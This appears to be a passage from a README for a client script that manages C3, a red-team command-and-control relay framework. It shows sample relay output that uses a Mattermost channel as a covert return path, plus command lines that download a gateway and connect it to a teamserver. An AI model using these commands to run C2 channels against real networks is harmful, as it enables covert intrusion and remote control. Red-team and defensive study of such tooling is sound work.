 ```
            Computer:     JUMPBOX
            Domain:       CONTOSO
            User Name:    alice
            Is elevated:  False
            OS Version:   Windows 10.0 Server SP: 0.0 Build 14393
            Process ID:   4092

    Channels:
        Gateway Return Channel (GRC) 1:
            Jitter:      3.5 ... 6.5
            Properties:
                Name:    Output ID
                Value:   3UM2G2TW

                Name:    Input ID
                Value:   fftuO5py

                Name:    Mattermost Server URL
                Value:   http://192.168.0.210:8080

                Name:    Mattermost Team Name
                Value:   foobar

                Name:    Mattermost Access Token
                Value:   c3g7sokucbgidgxxxxxxxxxx

                Name:    Channel name
                Value:   x26vg0

                Name:    User-Agent Header
                Value:   Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)

[.] Executing command: powershell -file speak.ps1 -message "New C3 Relay Inbound: CONTOSO/alice, computer: JUMPBOX"

```

## Other notable use-cases


### 1. Download gateway

```
py c3-client.py -v http://192.168.0.200:52935 download gateway c:\output\directory -G gate6 -O 192.168.0.200 -x
```

### 2. Connect to Teamserver

```
py c3-client.py -v http://192.168.0.200:52935 connector gate5 turnon teamserver 192.168.0.200 2223
```
